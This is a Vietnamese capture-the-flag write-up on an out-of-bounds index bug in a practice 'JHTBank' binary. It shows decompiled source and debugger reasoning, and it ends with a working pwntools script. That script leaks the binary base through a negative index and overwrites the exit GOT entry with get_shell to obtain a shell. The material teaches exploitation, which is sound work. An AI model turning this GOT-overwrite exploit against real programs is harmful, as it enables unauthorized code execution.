# out of bounds hay OOB
- OOB các bạn có thể hiểu cơ bản nó là 1 lỗi khi mà chương trình cho bạn quyền lựa chọn các option nhưng ở các điều kiện để thực hiện các `option` mà chương trình đề ra lại tồn tại 1 số bug trong đó mà ta có thể khai thác đc , để có thể hiểu sâu hơn về `OOB` bạn có thể tham khảo 1 trong số các lỗi `OOB` trong bài sau.
## 1. Source
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  int v4; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("------ JHTBank ------");
  while ( 1 )
  {
    main_menu();
    __isoc99_scanf("%d", &v5);
    if ( v5 != 1 )
      break;
    printf("Index: ");
    __isoc99_scanf("%d", &v4);
    if ( v4 <= 9 )
    {
      account_menu();
      __isoc99_scanf("%d", &v5);
      if ( v5 == 4 || v5 == 3 || v5 == 2 )
      {
        if ( *((_QWORD *)&acc + 2 * v4) )
        {
          if ( v5 == 4 )
          {
            printf("Name: %s\n", *((const char **)&acc + 2 * v4));
            printf("Amount: %lu\n", qword_3608[2 * v4]);
          }
          else if ( v5 == 2 )
          {
            printf("Enter name: ");
            __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
          }
          else
          {
            printf("Enter amount: ");
            __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
          }
        }
        else
        {
          puts("You didn't create this account!");
        }
      }
      else if ( v5 == 1 )
      {
        v3 = v4;
        *((_QWORD *)&acc + 2 * v3) = malloc(0x50uLL);
        printf("New name: ");
        __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
        printf("New amount: ");
        __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
      }
      else
      {
        puts("Invalid choice!");
      }
    }
    else
    {
      puts("You can have maximum 10 accounts");
    }
  }
  exit(0);
}
```
## 2. Hướng giải


- Nhìn ảnh trên thì lỗi `OOB` nằm ở hàm if vì `v4` đc định dạng là 1 biến `int` thế cho nên ta có thể nhập vào giá trị âm và ta sẽ khai thác lỗi này.




- Với các option sau thì chức năng cơ bản của nó như sau:
  - option 1 là tạo acc mới dường như vô dụng ta sẽ ko khai thác đc gì ở đây
  - option 2 thay đổi tên acc
  - option 3 thay đổi giá trị tiền
  - option 4 là in ra dữ liệu có lẽ ta sẽ sử dụng option này để leak cái gì đấy thế nên ta vào debug xem nhé.



- ta sẽ đặt breakpoint ở đây để khi nhập vào index ta có thể kiểm tra stack chính xác lỗi OOB diễn ra.




- khi đến đoạn này nó sẽ gọi lên địa chỉ của 1 giá trị = `rax + rdx` khi search thử thì nó ra địa chỉ như ảnh sau.

- Ta có thể thấy địa chỉ bắt đầu ở trên địa chỉ của `acc` , vậy là ta có thể leak đc các địa chỉ ở trên nữa để check xem phía trên có địa chỉ nào nữa ko nhé.


- Nhìn ảnh thì ta thấy có thể leak đc binary và các địa chỉ cả `GOT` và chương trình cho phép ta có thể `OW` đc got.
- Ở option 2 và 3 đều cho phép ta `OW` địa chỉ của `acc` và `amount`
nhưng sẽ có đôi chút khác biệt.

- Như hình trên khi `change acc` thì nó sẻ khi vào con trỏ mà địa chỉ đó ko thể `W` đc nhưng còn `change money` thì nó lại trỏ đến stack và stack này lại trỏ đến 1 địa chỉ `GOT` thì ta chỉ xài `option 3` để khai thác bài này.


- với script như này ta sẽ leak đc exe , tiếp theo ta chỉ cần `OW got` là đc.

- ở vùng khoanh đỏ là các địa chỉ của `amount` với đuôi 8 thế thì ta thử check xem `GOT` nào chúng ta có thể `OW` đc.

- Với các địa chỉ đc khoanh đỏ và có đuôi 8 ta có thể `OW` cac `GOT` sau thành `get_shell` , ta sẽ ưu tiên giữ `system` để nó có thể thực hiện `system(/bin/sh)` vậy thì ở đây tối ưu nhất là `exit`.

- ta sẽ viết script như sau để `OW exit = get_shell`
- sau khi chạy thử thì đã thu đc shell.

## 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('oob', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                b*main+240
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
###########################
###stage 1 : leak exe #####
###########################
sla(b'> ', b'1')
sla(b'Index: ', b'-5')
sla(b'> ', b'4')
p.recvuntil(b'Name: ')
exe_leak = u64(p.recvline()[:-1] + b'\0\0') #bởi vì địa chỉ nhận đc là dạng byte nên xài u64 chyển về số
exe.address = exe_leak - 0x35b0
info("Exe_leak: " + hex(exe_leak))
info("Exe_base: " + hex(exe.address))
#####################################
### Stage 2 : OW exit = get_shell ###
#####################################
sla(b'> ', b'1')
sla(b'Index: ', b'-9')
sla(b'> ', b'3')
sla(b'amount: ', str(exe.sym['get_shell']).encode()) # ở đây chúng ta sẽ nhập số ko phải nhập byte
                                                     #ta sẽ xài str để ép kiểu từ số về chữ và decode nó lại từ chuỗi thường sang byte

p.interactive()

```
